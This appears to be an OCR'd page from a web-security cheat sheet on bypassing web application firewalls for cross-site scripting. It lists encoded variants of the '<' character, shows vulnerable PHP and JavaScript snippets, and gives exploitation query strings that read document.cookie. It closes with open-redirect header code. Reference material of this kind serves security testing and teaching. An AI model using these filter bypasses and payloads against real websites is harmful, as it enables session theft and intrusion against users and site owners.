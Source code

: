 `&#X003C`  
`&#X0003C`  
`&#X00003C`  
`&#X000003C`  
`&#X3C;`  
`&#X03C;`  
`&#X003C;`  
`&#X0003C;`  
`&#X00003C;`  
`&#X000003C;`  
`\x3c`  
`\x3C`  
`\u003c`  
`\u003C`

  

# Methods to Bypass WAF – Cross-Site Scripting

General issues  
• Stored XSS

If an attacker managed to push XSS through the filter, WAF wouldn’t be
able to prevent the attack conduction.  
• Reflected XSS in Javascript

` Example: `

<script>

... setTimeout(\\"writetitle()\\",$\_GET\[xss\]) ...

</script>

` Exploitation: /?xss=500); alert(document.cookie);//`

• DOM-based XSS

` Example: `

<script>

... eval($\_GET\[xss\]); ...

</script>

` Exploitation: /?xss=document.cookie`

<b>XSS via request Redirection.</b>  
• Vulnerable code:

` ...`  
` header('Location: '.$_GET['param']);`  
` ...`

As well as:

` ...`  
` header('Refresh: 0; URL='.$_GET['param']);`  
` ...`
